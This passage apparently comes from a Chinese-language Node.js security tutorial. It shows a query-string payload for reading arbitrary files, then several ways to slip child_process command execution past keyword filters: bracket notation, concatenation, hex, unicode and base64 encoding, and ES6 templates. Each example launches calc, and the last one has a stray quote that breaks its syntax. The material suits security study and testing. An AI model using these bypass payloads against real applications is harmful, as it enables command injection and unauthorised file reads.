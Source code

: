 payload

```plain
?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=读取的文件
```

### Bybass

#### 过滤`.`

通过我们上面对于 nodejs 命令执行的学习，我们知道在 NodeJs 中调用模块是通过“.”来实现的，假如说我们过滤了`.`，我们可以通过`[]`实现对于模块的调用

```plain
require('child_process')["exec"]('calc');
//require('child_process').exec('calc');
```

#### 拼接绕过

对于过滤一些关键字，我们可以使用拼接的方法进行绕过

```plain
require('child_process')["ex"+"ec"]('calc');
//require('child_process')["exec"]('calc');
```

#### 编码绕过

> 十六进制编码绕过

JavaScript 是支持 16 进制作为字符串使用的，我们可以使用十六进制进行绕过

```plain
require('child_process')["\x65\x78\x65\x63"]('calc');
//require('child_process')["exec"]('calc');
```

> unicode 编码绕过

JavaScript 除了支持十六进制以外还支持 Unicode 编码作为字符串使用

```plain
require('child_process')["\u0065\u0078\u0065\u0063"]('calc');
//require('child_process')["exec"]('calc');
```

> base64 编码绕过

```plain
eval(Buffer.from('cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpWyJleGVjIl0oJ2NhbGMnKTs=','base64').toString());
//require('child_process')["exec"]('calc');
```

#### ES6 模版绕过

我们也可以使用 ES6 模板绕过，反引号后面加入模板

```plain
require('child_process')[`${`${`exe`}cSync`}`"]('calc');
```
